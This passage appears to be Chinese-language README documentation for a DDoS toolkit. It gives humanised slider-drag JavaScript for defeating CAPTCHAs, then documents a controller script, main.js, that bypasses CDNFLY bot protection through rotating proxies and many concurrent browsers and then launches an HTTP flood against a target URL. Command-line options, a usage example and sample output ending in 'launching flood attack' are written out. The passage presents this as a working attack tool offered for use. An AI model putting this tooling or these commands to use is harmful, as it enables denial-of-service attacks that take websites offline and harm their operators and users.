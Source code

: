 **拟人化操作**:
```javascript
// 滑块拖动（拟人化）
const steps = 30 + Math.floor(Math.random() * 8);  // 30-38 步
for (let i = 0; i <= steps; i++) {
    const x = startX + (dragDistance * i / steps);
    await page.mouse.move(x, startY, { steps: 1 });
    await page.waitForTimeout(8 + Math.random() * 10);  // 随机延迟 8-18ms
}
```

**性能指标**:
- **成功率**: 90%+
- **速度**: 5-15 秒/验证码
- **内存**: ~300MB per browser
- **稳定性**: ⭐⭐⭐⭐

---

### 🎯 工具 3: `main.js` - 智能攻击控制器

**技术栈**:
```javascript
Commander + Solver + nflood.js + Screen
```

**核心功能**:
- ✅ **全自动** - 自动绕过 -> 自动攻击
- ✅ **多浏览器** - 支持多个并发浏览器
- ✅ **代理轮换** - 自动切换代理
- ✅ **失败重试** - 自动关闭失败的代理
- ✅ **Screen 后台** - 使用 Screen 管理攻击进程

**命令行参数**:
```bash
node main.js -u <url> -p <proxyfile> -r <requests> -t <threads> -s <time> [options]

Options:
  -u, --url <string>        # 目标网址（必选）
  -p, --proxy <file>        # 代理文件或 'none'
  -r, --req <number>        # 每个浏览器的请求数（默认 10）
  -t, --threads <number>    # 浏览器线程数（默认 1）
  -s, --time <number>       # 攻击时长（秒，默认 60）
  -d, --debug               # 调试模式
  -c, --close               # 失败时自动停用代理
  -o, --optimize            # 拦截字体加载（提速）
```

**使用示例**:
```bash
# 自动绕过 + 攻击
node main.js \
    -u https://target-with-cdnfly.com \
    -p proxy.txt \
    -t 30 \
    -r 10 \
    -s 300 \
    -d \
    -c \
    -o

# 输出：
# ✅ [BROWSER] (1.2.3.4:8080) | 检测到验证码：CDNFLY新版_困难滑块
# ✅ [BYPASS|CDNFLY_按钮滑动]
# ✅ [Handler] 开始自动拖动滑块
# ✅ [Handler] 滑块拖动完成，等待验证...
# ✅ [BROWSER] (1.2.3.4:8080) | 绕过成功！启动洪水攻击
```